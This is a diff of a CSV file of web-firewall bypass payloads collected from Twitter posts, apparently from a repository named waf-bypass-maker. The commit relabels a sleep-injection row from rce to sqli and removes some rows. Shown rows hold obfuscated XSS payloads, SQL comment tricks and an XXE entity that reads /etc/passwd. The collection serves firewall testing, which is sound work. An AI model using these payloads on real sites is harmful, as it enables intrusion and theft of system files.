

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -164,3 +155,3 @@ https://twitter.com/knoxss_me/status/1188829588903858177,<base href=//knoxss.me>
 https://twitter.com/wugeej/status/1187159509715697670,"<!ENTITY % data SYSTEM ""netdoc:/etc/passwd"">",xxe
-https://twitter.com/daudmalik06/status/1186573099715702784,sle%25p%28'0x12'%2b1) => sleep('ox12' + 1),rce
+https://twitter.com/daudmalik06/status/1186573099715702784,sle%25p%28'0x12'%2b1) => sleep('ox12' + 1),sqli
 https://twitter.com/_MrB0b/status/1185847682407059456,<form><button formaction=javascript:top['ev'+'al'](self['\x61\x74\x6f\x62'](`YWxlcnQoMSk7`));//,xss
@@ -239,5 +225,2 @@ https://twitter.com/yeswehack/status/1130413802732904450,http://example[.]com/x.
 https://twitter.com/hungrybytes/status/1129501917216956416,"<svg onload\r\n=$.globalEval(""al""+""ert()"");>",xss
-https://twitter.com/fransrosen/status/1126963506723590148,"<style>
-@keyframes
- a{}b{animation:a;}</style><b/onanimationstart=prompt`${document.domain}&#x60;>",xss
 https://twitter.com/0xInfection/status/1123219386825711616,<input/oninput='new Function`confir\u006d\`0\``'>,xss
@@ -316,3 +299,2 @@ https://twitter.com/TricksTerCloWn/status/621826867151175681,/*!ORDER BY*/,sqli
 https://twitter.com/TricksTerCloWn/status/621826867151175681,/*!50000ORDER BY*/,sqli
-https://twitter.com/NaveenS16/status/595230999044206592,"<a href=""<?php echo strip_tags($_GET['url']) ?>"">",rce
 https://twitter.com/NaveenS16/status/595230999044206592,"?url=""onm<>ouseover=""ale<>rt(0)",xss
```
Also changed, not shown: 9 removed rows and 9 edited cells elsewhere in this file.
